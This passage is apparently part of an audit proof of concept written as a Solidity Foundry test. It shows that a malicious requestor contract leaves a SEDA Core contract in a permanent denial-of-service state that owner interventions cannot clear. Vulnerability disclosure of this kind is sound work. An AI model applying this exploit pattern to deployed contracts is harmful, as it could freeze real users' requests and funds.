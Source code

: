 ```solidity
        
        // Verify the requestor is set correctly
        try sedaCore.getPendingRequests(0, 1) returns (ISedaCore.PendingRequest[] memory requests) {
            if (requests.length > 0) {
                console.log("Request still exists in pendingRequests");
                console.log("Requestor address: %s", requests[0].requestor);
                console.log("Malicious contract address: %s", address(maliciousContract));
            } else {
                console.log("Request was removed from pendingRequests");
            }
        } catch {
            console.log("getPendingRequests still fails");
        }
        
        // Demonstrate that even the owner can't fix the issue
        console.log("\n--- Attempting mitigation strategies ---");
        
        // 1. Try increasing the timeout period
        vm.startPrank(owner);
        console.log("1. Owner increasing timeout period to 2 days");
        sedaCore.setTimeoutPeriod(2 * 86400); // 2 days
        vm.stopPrank();
        
        // 2. Try withdrawing as the owner
        vm.startPrank(owner);
        console.log("2. Owner attempting to withdraw the request");
        try sedaCore.withdrawTimedOutRequest(firstRequestId) {
            console.log("UNEXPECTED: Owner withdrawal succeeded");
        } catch Error(string memory reason) {
            console.log("Owner withdrawal failed with reason: %s", reason);
        } catch (bytes memory) {
            console.log("Owner withdrawal failed with low-level error");
            console.log("PERMANENT DOS CONFIRMED: Even owner cannot clean up requests");
        }
        vm.stopPrank();
        
        // 3. Try pausing and unpausing the contract
        vm.startPrank(owner);
        console.log("3. Owner pausing and unpausing the contract");
        sedaCore.pause();
        sedaCore.unpause();
        vm.stopPrank();
        
        // Check if getPendingRequests still fails
        vm.startPrank(normalUser);
        try sedaCore.getPendingRequests(0, 1) {
            console.log("getPendingRequests now works (unexpected)");
        } catch {
            console.log("PERMANENT DOS CONFIRMED: getPendingRequests still fails after owner interventions");
        }
        vm.stopPrank();
        
        // Verify DoS condition still exists after timeout
        vm.startPrank(normalUser);
        try sedaCore.getPendingRequests(0, 1) {
            console.log("getPendingRequests now works (unexpected)");
        } catch {
            console.log("PERMANENT DOS CONFIRMED: getPendingRequests(0, 1) still fails after timeout");
        }
        vm.stopPrank();
```